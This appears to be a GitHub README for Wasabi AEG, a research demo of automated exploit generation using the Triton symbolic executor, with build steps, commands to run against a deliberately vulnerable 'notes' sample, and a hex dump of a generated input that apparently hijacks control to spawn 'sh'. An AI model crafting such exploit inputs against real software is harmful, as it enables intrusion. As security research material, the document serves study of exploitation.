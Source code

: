 Wasabi AEG
====

This is yet another implementation (demonstration) of [AEG (Automated Exploit Generation)](http://security.ece.cmu.edu/aeg/) using Symbolic Executor Triton.


Requirements
-----
* [Triton](https://github.com/JonathanSalwan/Triton)
* Python2


Build
----
```
cd vuln-samples
make
cd -
```


Demo
-----
```
time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes.py vuln-samples/notes < vuln-samples/crash-inputs/notes-1
time ~/project/pin-2.14-71313-gcc.4.4.7-linux/source/tools/Triton/build/triton solve-notes-phase-2.py vuln-samples/notes < crash_inputs
xxd 
```
```
K_atc% xxd crash_inputs-2 
00000000: 6e0a 7469 740a 636f 6e0a 6e0a 7469 7421  n.tit.con.n.tit!
00000010: 0a63 6f6e 210a 750a 310a 4141 4125 4141  .con!.u.1.AAA%AA
00000020: 7341 4142 4141 2441 416e 7820 6000 0000  sAABAA$AAnx `...
00000030: 0000 0a63 6f6e 2121 0a75 0a32 0a74 6974  ...con!!.u.2.tit
00000040: 2121 0ab2 0840 0000 0000 0073 680a       !!...@.....sh.
```